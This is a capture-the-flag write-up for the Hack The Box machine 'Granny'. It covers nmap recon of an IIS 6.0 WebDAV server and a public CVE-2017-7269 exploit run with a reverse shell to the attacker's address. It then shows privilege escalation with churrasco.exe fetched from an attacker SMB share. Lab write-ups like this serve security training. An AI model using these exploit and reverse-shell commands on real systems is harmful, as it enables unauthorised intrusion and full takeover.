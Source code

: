 # Box: Granny
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.56.178 -T4  -v -p- ```
```
# Nmap 7.93 scan initiated Thu Sep 21 23:02:51 2023 as: nmap -A -T4 -v -p- -oN granny 10.129.56.178
Nmap scan report for 10.129.56.178
Host is up (0.16s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Date: Thu, 21 Sep 2023 22:08:49 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows XP SP2 or SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   177.17 ms 10.10.14.1
2   177.19 ms 10.129.56.178

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 21 23:08:58 2023 -- 1 IP address (1 host up) scanned in 367.26 seconds
```
From our scan we have just 1 open port. This means our enumeration today will be focused on that port.


# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c4f47ac1-feea-4966-a454-ede3966703b7)

There was nothing interesting in the page source. 

Going back to the nmap scan I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fc2f91f1-71df-4da5-b830-9e5274c94f20)

It seems that version of ```Microsoft IIS httpd``` has an exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9dd310ad-45ad-4604-9992-4f5561b5a543)

Yeah I was right. Now that we found our attack vector, lets exploit😎



# Exploitation

During the search for exploits I found [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

You can just clone it, so you'll be able to use  it

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Granny]
└─$ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
Cloning into 'iis6-exploit-2017-CVE-2017-7269'...
remote: Enumerating objects: 6, done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 6
Receiving objects: 100% (6/6), done.
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Granny]
└─$ cd iis6-exploit-2017-CVE-2017-7269 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Granny/iis6-exploit-2017-CVE-2017-7269]
└─$ ls -la         
total 32
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  ..
drwxr-xr-x 8 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .git
-rw-r--r-- 1 bl4ck4non bl4ck4non 12313 Sep 20 17:15 'iis6 reverse shell'
-rw-r--r-- 1 bl4ck4non bl4ck4non    66 Sep 20 17:15  README.md
```
Lets try to run the exploit

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Granny/iis6-exploit-2017-CVE-2017-7269]
└─$ python2 iis6\ reverse\ shell             
usage:iis6webdav.py targetip targetport reverseip reverseport
```
So, we have to specify the targetip and targetport, also our tun0 ip address and the port we plan on listening on

Lets start out by setting up our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8f60c83d-2047-433b-8acc-59c5258cf23e)

Now, lets run the exploit

command:```python2 iis6\ reverse\ shell 10.129.127.13 80 10.10.14.142 1234```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0f073bc7-316c-4f62-820c-d68f28347e0c)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ebd2bbd1-f8e2-4d49-b4e7-09083381a065)

We got a shell as ```nt authority\network service```. Lets go ahead and escalate our privileges



# Privilege Escalation

Running the ```whoami /priv``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7da53b57-00cb-4f45-9252-2ca1f64aa520)

As we can see ```SeImpersonatePrivilege``` is enabaled, so this may be vulnerable to a potato exploit.

We can try [churrasco](https://github.com/Re4son/Churrasco/blob/master/churrasco.exe) here

We'll  be transferring that to the target machine, now ```certutil``` and ```curl``` doesn't work on the target machine. This means we'll be sending the file over to the target using smb

Run this command in the directory where you downloaded the file

command:```smbserver.py share .```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3dfc98ea-9007-41de-9165-a04fa37ef439)

On the target machine,

command:```copy \\10.10.14.142\share\churrasco.exe potato.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/49bfec61-3a3d-4677-9ed1-d82bd2391f95)

Now that we've successfully transferred the executable, lets run it

command:```potato.exe -d "cmd.exe"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ff84d8d1-8e83-4dbc-adcc-5607fd09bb65)

We have successfully escalated our privileges, which means we have successfully pwned this box😎


That will be all for today
<br> <br>
[Back To Home](../../index.md)










